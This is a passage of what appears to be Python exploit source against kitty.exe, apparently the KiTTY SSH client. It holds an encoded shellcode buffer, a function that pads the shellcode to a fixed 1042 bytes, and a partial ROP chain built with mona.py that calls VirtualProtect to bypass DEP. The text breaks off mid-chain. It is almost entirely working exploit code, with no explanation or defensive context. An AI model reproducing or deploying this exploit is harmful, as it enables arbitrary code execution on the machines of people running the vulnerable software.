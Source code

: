 ```python
buf += b"\xa4\x46\x6c\x90\x23\x04\x8f\x68\xb4\x69\x19\x8d"
buf += b"\x85\xa9\x7d\xc6\xb6\x19\xf5\x8a\x3a\xd1\x5b\x3e"
buf += b"\xc8\x97\x73\x31\x79\x1d\xa2\x7c\x7a\x0e\x96\x1f"
buf += b"\xf8\x4d\xcb\xff\xc1\x9d\x1e\xfe\x06\xc3\xd3\x52"
buf += b"\xde\x8f\x46\x42\x6b\xc5\x5a\xe9\x27\xcb\xda\x0e"
buf += b"\xff\xea\xcb\x81\x8b\xb4\xcb\x20\x5f\xcd\x45\x3a"
buf += b"\xbc\xe8\x1c\xb1\x76\x86\x9e\x13\x47\x67\x0c\x5a"
buf += b"\x67\x9a\x4c\x9b\x40\x45\x3b\xd5\xb2\xf8\x3c\x22"
buf += b"\xc8\x26\xc8\xb0\x6a\xac\x6a\x1c\x8a\x61\xec\xd7"
buf += b"\x80\xce\x7a\xbf\x84\xd1\xaf\xb4\xb1\x5a\x4e\x1a"
buf += b"\x30\x18\x75\xbe\x18\xfa\x14\xe7\xc4\xad\x29\xf7"
buf += b"\xa6\x12\x8c\x7c\x4a\x46\xbd\xdf\x03\xab\x8c\xdf"
buf += b"\xd3\xa3\x87\xac\xe1\x6c\x3c\x3a\x4a\xe4\x9a\xbd"
buf += b"\xad\xdf\x5b\x51\x50\xe0\x9b\x78\x97\xb4\xcb\x12"
buf += b"\x3e\xb5\x87\xe2\xbf\x60\x3d\xea\x66\xdb\x20\x17"
buf += b"\xd8\x8b\xe4\xb7\xb1\xc1\xea\xe8\xa2\xe9\x20\x81"
buf += b"\x4b\x14\xcb\xbc\xd7\x91\x2d\xd4\xf7\xf7\xe6\x40"
buf += b"\x3a\x2c\x3f\xf7\x45\x06\x17\x9f\x0e\x40\xa0\xa0"
buf += b"\x8e\x46\x86\x36\x05\x85\x12\x27\x1a\x80\x32\x30"
buf += b"\x8d\x5e\xd3\x73\x2f\x5e\xfe\xe3\xcc\xcd\x65\xf3"
buf += b"\x9b\xed\x31\xa4\xcc\xc0\x4b\x20\xe1\x7b\xe2\x56"
buf += b"\xf8\x1a\xcd\xd2\x27\xdf\xd0\xdb\xaa\x5b\xf7\xcb"
buf += b"\x72\x63\xb3\xbf\x2a\x32\x6d\x69\x8d\xec\xdf\xc3"
buf += b"\x47\x42\xb6\x83\x1e\xa8\x09\xd5\x1e\xe5\xff\x39"
buf += b"\xae\x50\x46\x46\x1f\x35\x4e\x3f\x7d\xa5\xb1\xea"
buf += b"\xc5\xd5\xfb\xb6\x6c\x7e\xa2\x23\x2d\xe3\x55\x9e"
buf += b"\x72\x1a\xd6\x2a\x0b\xd9\xc6\x5f\x0e\xa5\x40\x8c"
buf += b"\x62\xb6\x24\xb2\xd1\xb7\x6c"

def shellcode():
	sc = b'' 
	sc += b'\xBB\x44\x24\x44\x44' # mov    ebx,0x44442444
	sc += b'\xB8\x44\x44\x44\x44' # mov    eax,0x44444444
	sc += b'\x29\xD8'             # sub    eax,ebx
	sc += b'\x29\xC4'             # sub    esp,eax
	sc += buf
	sc += b'\x90' * (1042-len(sc))
	assert len(sc) == 1042 
	return sc

def create_rop_chain():
	# rop chain generated with mona.py - www.corelan.be
	rop_gadgets = [
	#[---INFO:gadgets_to_set_esi:---]
	0x004c5832,  # POP EAX # ADD ESP,14 # POP EBX # POP ESI # RETN [kitty.exe]
	0x006424a4,  # ptr to &VirtualProtect() [IAT kitty.exe]
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x41414141,  # Filler (compensate)
	0x00484e07,  # MOV EAX,DWORD PTR DS:[EAX] # RETN [kitty.exe]
	0x00473cf6,  # XCHG EAX,ESI # RETN [kitty.exe]
	#[---INFO:gadgets_to_set_ebp:---]
	0x00429953,  # POP EBP # RETN [kitty.exe]
	0x005405b0,  # PUSH ESP; RETN 0 [kitty.exe]
	#[---INFO:gadgets_to_set_ebx:---]
	0x0049d9f9,  # POP EBX # RETN [kitty.exe]
	0x00000201,  # 0x00000201-> ebx
	#[---INFO:gadgets_to_set_edx:---]
	0x00430dce,  # POP EDX # RETN [kitty.exe]
```